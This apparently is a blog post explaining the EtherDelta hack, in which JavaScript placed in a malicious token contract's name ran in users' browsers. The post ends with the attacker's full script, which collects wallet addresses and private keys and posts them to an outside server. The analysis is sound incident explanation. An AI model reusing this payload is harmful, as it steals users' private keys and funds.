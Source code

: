 ### The Vulnerability

EtherDelta allows any ERC20 token to be traded by users. There are many tokens that are officially listed on the platform; the URL for these tokens looks like this:

[https://etherdelta.com/#LINK-ETH](https://etherdelta.com/?ref=hackernoon.com#LINK-ETH)

For any tokens that are not officially listed by the site, you can still trade them just the same using the address of the ERC20 token contract (the genesis contract that is used to create the tokens on the Ethereum blockchain and distribute them to users). To do this, you just modify the URL to include this address, like so:

[https://etherdelta.com/#0x514910771af9ca656af840dff83e8264ecf986ca-ETH](https://etherdelta.com/?ref=hackernoon.com#0x514910771af9ca656af840dff83e8264ecf986ca-ETH)

In this case, the two URLs above are for the same token, ChainLink. You can read the ERC20 token contract for ChainLink here:

[https://etherscan.io/token/0x514910771af9ca656af840dff83e8264ecf986ca](https://etherscan.io/token/0x514910771af9ca656af840dff83e8264ecf986ca?ref=hackernoon.com)

For each token, the EtherDelta interface displays the name of the token at the top of the screen. For unlisted tokens, it would display the address of the token contract (that long string that starts with 0x514…). At some point, the EtherDelta team decided it would be nice to lift the name of the token contract and display that in the EtherDelta interface instead, so the page displayed “ChainLink Token” instead of “0x514910771af9ca656af840dff83e8264ecf986ca”.

Taking any content from outside of the webpage and displaying it to the user (whether this content is user input or copied from another source, like a database, API, or another website) creates the possibility for an *injection vulnerability*. Web developers usually use validation methods to ensure that the content being displayed is only numbers, letters, or an acceptable range of characters, or will explicitly strip or modify certain types of content (like < > used for HTML tags or ( ) used for JavaScript code) to prevent the displayed content from actually being executed as live code.

I think you can see where this is going.

### What Happened

The attacker gained the trust of users through cryptocurrency chat rooms on Discord and Slack, and sent these users a link for an unlisted token on EtherDelta. He also posted this link in the official EtherDelta chat powered by Gitter. The contract address in the URL of this link was a malicious contract deployed by the attacker, where the name of the contract included a block of JavaScript code. When the name of the contract was displayed on the page, the JavaScript code was also “displayed” and thus executed, with full access to the data in the user’s session on EtherDelta. Here is the code from the malicious contract that was executed:

> f`[¤ ]DATA <script> function doSomething(){for($(“#depositBalanceToken a”).text().indexOf(“‘)”>DATA”)>=0&&$(“#depositBalanceToken a”).text(“DATA”),savedKeys=[],a=1;a<main.EtherDelta.addrs.length;a++)singlekey=[],singlekey[0]=main.EtherDelta.addrs[a],singlekey[1]=main.EtherDelta.pks[a],savedKeys.push(singlekey);var e={object:JSON.stringify(savedKeys)};$.post(“[https://cdn-solutions.com/update.php](https://cdn-solutions.com/update.php?ref=hackernoon.com)",e,function(e,n,t){}),setTimeout(doSomething,1e4)}var savedKeys=[];if(void 0===onlyonce){var onlyonce=!0;doSomething(),ga=function(){},doSomething(),$(“#accountSubmit”).click(function(){doSomething()})} </script>
